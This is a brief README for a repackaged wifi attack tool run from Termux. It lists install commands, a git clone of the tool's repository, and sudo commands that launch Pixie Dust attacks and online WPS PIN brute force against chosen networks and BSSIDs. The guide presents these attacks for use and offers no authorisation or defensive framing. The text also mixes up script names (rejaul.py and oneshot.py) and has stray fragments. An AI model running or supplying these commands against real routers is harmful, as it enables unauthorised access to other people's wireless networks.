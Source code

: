 <!--- mark down --->
---
# wifi hack tool all run to rejaul
---

``` pkg install -y root-repo ```

``` pkg install -y git tsu python wpa-supplicant pixiewps iw ```

git clone https://github.com/princeicon2712/rejaul2712.git

``` $ cd rejaul2712 ```

``` $ chmod +x * ```

``` $ python rejaul.py -h ```

## plz' go to HOME

-. []Example : sudo python rejaul2712/rejaul.py -i wlan0 -K


# Note:

## First turn off your Wifi.

### Show avaliable networks and start Pixie Dust attack on a specified network.

``` sudo python rejaul.py -i wlan0 -K ```

### Start Pixie Dust attack on a specified BSSID: 

``` sudo python rejaul.py -i wlan0 -b 00:91:4C:C3:AC:28 -K ```

### Launch online WPS bruteforce with the specified first half of the PIN:

``` sudo python rejaul.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234 ```

``` wps router push button:- sudo python oneshot.py -i wlan0 --pbc ```

### Troubleshooting

### "Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.
